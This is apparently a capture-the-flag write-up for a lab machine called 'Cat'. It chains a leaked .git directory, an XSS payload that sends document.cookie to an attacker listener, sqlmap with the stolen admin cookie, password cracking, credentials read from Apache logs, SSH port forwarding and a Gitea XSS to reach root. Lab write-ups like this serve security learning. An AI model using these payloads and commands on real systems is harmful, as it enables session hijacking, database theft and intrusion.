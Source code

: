 # 🐱‍💻Cat

## 🧠Summary
> A quick TCP scan revealed only ports 80 (HTTP) and 22 (SSH). The web root leaked a full .git directory; using git-dumper I rebuilt the repo locally and spotted an unsanitised username field in join.php. By injecting a one-liner that sent request data to a Python HTTP listener on my box, I intercepted the admin’s session cookie.With that cookie I ran sqlmap against the site and dumped the database, cracking user rosa’s hash with John and SSH’ing in. System recon uncovered Apache logs in /var/log/apache2 that disclosed axel’s clear-text password, granting the user flag.For root, netstat -tlnp showed an internal service on port 3000. I used SSH port-forwarding (ssh -L 3000:127.0.0.1:3000) to reach a private Gitea instance. Creating a repo let me push a crafted a payload to obtain a index.php, browsing the raw file revealed the password of root, ran su root, and captured the root flag.

## ↘️ASCII Visual
```text
[ Nmap ] → 80,22
      |
      v
[ /.git leak ]
      |
      v
git-dumper  →  join.php vuln  →  inject λ(payload)
      |                                 |
      |<–—– HTTP listener logs admin cookie
      v
[ sqlmap --cookie ]  → dump DB → crack rosa
      |
 SSH (rosa)
      |
      v
/var/www/apache2 logs → axel pwd → SSH (axel) → user.txt
      |
      v
netstat → 127.0.0.1:3000
SSH -L 3000:127.0.0.1:3000
      |
      v
[Gitea]  → push repo to gain root password
      |
decode →  su root  →  root.txt
```

## 🔎Nmap scan
- Did a nmap scan to find the open ports
- The result revealed port 80 and port 22 opened
  ![](./screenshot/nmap_scan.png)

## 🌐Web enumeration
- Did web enumeration to find that the /.git file is asseceble
- So used git-dumper to download all the git file
  ```bash
  git-dumper http://cat.htb/.git/ ./cat_git_repo
  ```
- The downloaded file 👉 [cat_git_repo](./cat_git_repo)
- Read throught the file to find that in the username form there is no sanitation so used the below payload to intercept all the send and recieve data
  ```html
  <img src=x onerror=this.src="http://{your ip}:{your port number}/"+btoa(document.cookie)>
  ```
- This helped to obtained the cookie of admin

## 📌Loop hole
- From the obtained cookie used it in sqlmap to gain the database
  ```bash
  sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID={admin cookie}" -p catName --level=5 --risk=3 --dbms=SQLite -T "users" --threads=8 --dump
  ```
- From the above database got a hash, decoded using john
- SSH into the system as Rosa but found that user flag was with Axel

## ⚓Foothold
- Looked through the system using Rosa and found out about /var/log/apache2 cat the contents inside it to see the password of Axel hardcoded inside it
- Tried prevelage escalation and found out that the machine hosted a webpage in port 3000
- Port forwarded it to see the webpage content and found out it is a gitea instance
- Using a XSS script from a documentation of gitea which comes under CVE ID : CVE-2024-6886
- Pushed and send a mail using to the other developer to pull the inserted code (social engineering)
- After a few attempt of sending the request it got accepted (Note: This is just a bot based social engineering)
- Then got the root password which got dumped in a file called as index.php
- Used sudo su and gained root access and gain the root flag ✍️
